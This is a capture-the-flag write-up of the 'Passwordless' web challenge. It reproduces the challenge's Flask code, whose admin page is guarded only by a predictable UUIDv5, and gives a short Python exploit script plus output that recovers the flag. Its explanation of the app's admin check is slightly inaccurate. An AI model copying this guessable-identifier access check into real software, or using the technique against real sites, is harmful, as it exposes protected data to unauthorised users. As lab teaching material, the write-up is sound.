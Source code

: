 					
					![Alt Text](attachment/b525cca891743bde0dd6216253c5fda9.png)
## Challenge's Description 

Tired of storing passwords? No worries! This super secure website is passwordless! Author: `NoobMaster`
### Attachments
- [app.py](https://static.n00bzunit3d.xyz/Web/Passwordless/app.py)
- [http://24.199.110.35:40150/](http://24.199.110.35:40150/)

## Solution 

We are given an python file that the website runs. Not something difficult here, it tell us straight forward that to get the flag you need to be the user "admin123" and have the uuid equal to "13371337-1337-1337-1337-133713371337"

**app.py:**
```python
#!/usr/bin/env python3
from flask import Flask, request, redirect, render_template, render_template_string
import subprocess
import urllib
import uuid
global leet

app = Flask(__name__)
flag = open('/flag.txt').read()
leet=uuid.UUID('13371337-1337-1337-1337-133713371337')

@app.route('/',methods=['GET','POST'])
def main():
    global username
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.values['username']
        if username == 'admin123':
            return 'Stop trying to act like you are the admin!'
        uid = uuid.uuid5(leet,username) # super secure!
        return redirect(f'/{uid}')

@app.route('/<uid>')
def user_page(uid):
    if uid != str(uuid.uuid5(leet,'admin123')):
        return f'Welcome! No flag for you :('
    else:
        return flag

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

If we try to do it without some tool or script to intercept the requests we will failed cause after we insert the username as "admin123" a random uuid get generated and of course isn't the one that we want to get the flag. 
So, in order to take the flag we must do it with some tool like burpsuite/postman or to write an exploit script. I did both of them xD

**exploit.py:**
```python
#!/usr/bin/env python3
import uuid
from requests import get

url = "http://24.199.110.35:40150/"

leet = uuid.UUID('13371337-1337-1337-1337-133713371337')
admin_username = 'admin123'

admin_uid = uuid.uuid5(leet, admin_username)
print('[+] admin uuid: ' + str(admin_uid))

r = get(url=url+str(admin_uid))
print(r.text)
```

And we got the flag!

```sh
┌──(vein㉿vein)-[~]
└─$ ./exploit.py      
[+] admin uuid: 3c68e6cc-15a7-59d4-823c-e7563bbb326c
n00bz{1337-13371337-1337-133713371337-1337}
```
